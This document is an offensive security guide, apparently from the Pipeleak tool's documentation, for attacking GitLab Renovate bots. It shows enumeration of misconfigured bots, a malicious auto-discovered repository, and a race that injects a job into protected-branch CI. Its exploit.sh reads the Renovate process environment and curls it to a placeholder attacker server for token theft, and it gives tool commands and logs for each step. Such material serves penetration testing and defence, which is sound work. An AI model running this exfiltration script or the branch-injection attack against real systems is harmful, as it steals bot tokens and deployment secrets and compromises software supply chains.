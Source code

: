

# Attacking Renovate Bots: A Practical Guide

This guide shows how to use Pipeleak to discover and exploit common misconfigurations in Renovate bot setups. For background and technical details, see the full blog post: https://blog.compass-security.com/2025/05/renovate-keeping-your-updates-secure/

Two main points are important to understand:

1. Code Execution by renovated repositories
> Every project renovated by the same bot must be considered equally trusted and exposed to the same attack level. If one project is compromised, all others processed by that bot can be affected. Code execution by the renovated repository in the bot context is assumed in Renovates threat model.

2. GitLab invite auto acceptance:
> GitLab project invites are auto accepted. You can invite any bot directly to your repository. If it is then renovated by the invited bot you can compromise the bot user.

## 1. Enumerate Renovate Bot Usage

Use the `enum` command to scan your GitLab instance for Renovate bot jobs and config files. This is useful for:

- Identify Renovate configurations
- Finding projects with vulnerable Renovate bot configurations
- Collecting config files for further analysis

We enumerate  Renovate configs found on GitLab.com. One project has been found, that enables Renovate's autodiscovery of projects and does NOT set any autodiscovery filters.

```bash
pipeleak gl renovate enum -g https://gitlab.com -t glpat-[redacted] --dump
2025-09-30T07:11:06Z INF Fetching projects
2025-09-30T07:11:12Z WRN Identified Renovate (bot) configuration autodiscoveryFilterType= autodiscoveryFilterValue= hasAutodiscovery=true hasAutodiscoveryFilters=false hasConfigFile=true pipelines=enabled selfHostedConfigFile=true url=https://gitlab.com/test-group/renovate-bot
2025-09-30T07:11:16Z INF Fetched all projects
2025-09-30T07:11:16Z INF Done, Bye Bye 🏳️‍🌈🔥
```

This means this bot is vulnerable to the autodiscovery exploit.

---

## 2. Exploit Autodiscovery with a Malicious Project

The Renovate bot from the example above is configured to autodiscover new projects and does not apply any or only weak bypassable filters. You can create a repository with a malicious script that gets executed by the bot. 

The following command creates a repository, that includes an exploit script called `exploit.sh`. Whenever a Renovate bot picks up this repo, the script will be executed.
```bash
pipeleak gl renovate autodiscovery -g https://gitlab.com -t glpat-[redacted] 
2025-09-30T07:19:33Z INF Created project name=devfe-pipeleak-renovate-autodiscovery-poc url=https://gitlab.com/myuser/devfe-pipeleak-renovate-autodiscovery-poc
2025-09-30T07:19:35Z INF Created file file=renovate.json
2025-09-30T07:19:35Z INF Created file file=package.json
2025-09-30T07:19:36Z INF Created file file=package-lock.json
2025-09-30T07:19:37Z INF Created file file=exploit.sh
2025-09-30T07:19:37Z INF No username provided, you must invite the victim Renovate Bot user manually to the created project
2025-09-30T07:19:37Z INF Make sure to update the exploit.sh script with the actual exploit code
2025-09-30T07:19:37Z INF Then wait until the created project is renovated by the invited by the Renovate Bot user
```

First we need to setup the `exploit.sh` script according to our needs. Our goal is to read the Renovates process environment variables and exfiltrate them to our attacker server.

```bash
#!/bin/bash
UPLOAD_URL="https://[attacker-ip]:8080/upload"

if [ -z "$UPLOAD_URL" ]; then
    echo "Upload URL is empty"
    exit 1
fi

# 1. Get renovate PID
RPID=$(ps -eo pid,cmd | grep -i 'renovate' | awk '{print $1}' | head -n 1)
echo "[+] Renovate PID: $RPID"

# 2. Upload /proc/<PID>/environ to GoShs server
ENV_FILE="renovate_environ_${RPID}.txt"
if [ -r "/proc/$RPID/environ" ]; then
    tr '\0' '\n' < /proc/$RPID/environ > "$ENV_FILE"
    echo "[+] Uploading $ENV_FILE to GoShs server..."
    curl -k -sSf -X POST -F "files=@$ENV_FILE" "$UPLOAD_URL"
else
    echo "[-] Cannot read /proc/$RPID/environ"
fi
```

On our attacker server we start a [GoShs](https://github.com/patrickhener/goshs) server to accept the environment files from the Renovate process.
```bash
./goshs --ssl --self-signed --upload-only -no-clipboard --no-delete --port 8000
INFO   [2025-09-30 09:31:29] You are running the newest version (v1.1.1) of goshs
```

In the next step we have to identify the bot user and invite it to our repository. By looking at at the Renovate bot configuration we can identify the renovated repos, and check the username of the bot user in the merge requests created by that bot. 

Such a MR can look like this. Below the title we see the bots username `renovate_runner`.

![Renovate MR](./renovate_mr.png)

Now we will invite that user to our repository with `developer` acess. Now its time to wait, until the bot is triggered next.
After it has run, we can can the environ file on our GoShs server.

In that file we want to extract all sensitive environment variables and use the for lateral movement.
Most intersting is probably the `RENOVATE_TOKEN` as it might contain GitLab PAT. You can then enumerate the access of that PAT using Pipeleaks features.


## 3. Privilege Escalation via Renovate Bot Branches

In this scenario we assume, that we already gained access to a repositry, but only with developer access. We want to gain access to the configured CI/CD variables, that are configured for deployments. However we cannot directly access these, as they are only provided to pipeline runs on protected branches like the main `branch`.

Luckily the project is using Renovate and the bot is configured to auto merge after the tests pass in the MR created by the bot. Thus the bot has maintainer access to the repository.

Our goal is to abuse the Renovate bot access level to merge a malicious `gitlab-ci.yml` file into the main branch, effectively bypassing a review by the other project maintainers. On the main branch we can then steal the exposed environment variables used for the deployments.

Using Pipeleak we can monitor our repository for new renovate branches. When a new one is detected, Pipeleak tries to add a new job into the `gitlab-ci.yml`. As this needs to exploit a race condition (add new changes to Renovate branch, before the bot activates auto-merge) this might take a few attempts.

```bash
pipeleak gl renovate privesc -g https://gitlab.com -t glpat-[redacted] --repoName company1/a-software-project --renovateBranchesRegex 'renovate/.*' -v
2025-09-30T07:56:57Z DBG Verbose log output enabled
2025-09-30T07:56:57Z INF Ensure the Renovate bot does have a greater access level than you, otherwise this will not work, and is able to auto merge into the protected main branch
2025-09-30T07:56:58Z DBG Testing push access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z DBG Testing merge access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z INF Default branch is protected and you do not have direct access, proceeding with exploit branch=main currentAccessLevel=30
2025-09-30T07:56:58Z INF Monitoring for new Renovate Bot branches to exploit
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:56:58Z DBG Storing original branches for comparison
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z INF Checking if new branch matches Renovate Bot regex branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Identified Renovate Bot branch, starting exploit process branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Fetching .gitlab-ci.yml file from Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Modifying .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:31Z INF Updated remote .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1 fileinfo={"branch":"renovate/update-lib1","file_path":".gitlab-ci.yml"}
2025-09-30T07:57:31Z INF CI/CD configuration updated, check yourself if we won the race! branch=renovate/update-lib1
2025-09-30T07:57:31Z INF If Renovate automatically merges the branch, you have successfully exploited the privilege escalation vulnerability and injected a job into the CI/CD pipeline that runs on the default branch
```
Manually go check if the MR has been set to auto merge, and see if your changes land in the main branch. If they do you successfuly injected a CI/CD into the protected branch. From there leak all the credentials and move forward.
